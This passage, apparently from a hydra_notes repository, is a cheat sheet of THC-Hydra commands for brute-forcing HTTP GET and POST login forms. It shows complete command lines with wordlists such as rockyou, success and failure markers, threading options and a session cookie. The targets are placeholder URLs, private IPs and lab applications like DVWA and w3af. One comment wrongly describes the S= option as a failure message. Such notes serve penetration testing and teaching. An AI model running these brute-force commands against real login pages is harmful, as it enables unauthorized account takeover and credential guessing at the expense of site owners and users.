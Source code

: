 Let's see some warmup examples:

```shell
hydra -l admin -P pass.txt https://url.com https-post-form "index.php:param1=value123&user=^USER^&pass=^PASS^:F=Bad login"
 # in this example we are in an https post form situation, 
 # as we may notice as request line we have the following structure
 # page:parameters:F=message_to_show_in_case_of_failure
```

```shell
hydra -l admin -P pass.txt https://url.com https-post-form "index.php:param1=value123&user=^USER^&pass=^PASS^:S=Success!!"
 # in this example we are in an https post form situation, 
 # as we may notice as request line we have the following structure
 # page:parameters:S=message_to_show_in_case_of_failure
```

### [](https://github.com/gnebbia/hydra_notes#http-get-login-forms)HTTP Get Login Forms

```shell
hydra -l admin -P /root/Desktop/wordlists/test.txt http://www.website.com \
http-get-form "/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
```

```shell
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

### [](https://github.com/gnebbia/hydra_notes#http-post-login-forms)HTTP Post Login Forms

```shell
hydra 192.168.1.69 http-post-form "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" \
-L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
# Here we specified:
 # Host = 192.168.1.69
 # Method = http-form-post
 # URL = /w3af/bruteforce/form_login/dataReceptor.php
 # Form parameters = user=^USER^&pass=^PASS^
 # Failure response = Bad login
 # Users file = users.txt
 # Password file = pass.txt
 # Threads = -t 10
 # Wait for timeout = -w 30
 # Output file = -o hydra-http-post-attack.txt
```
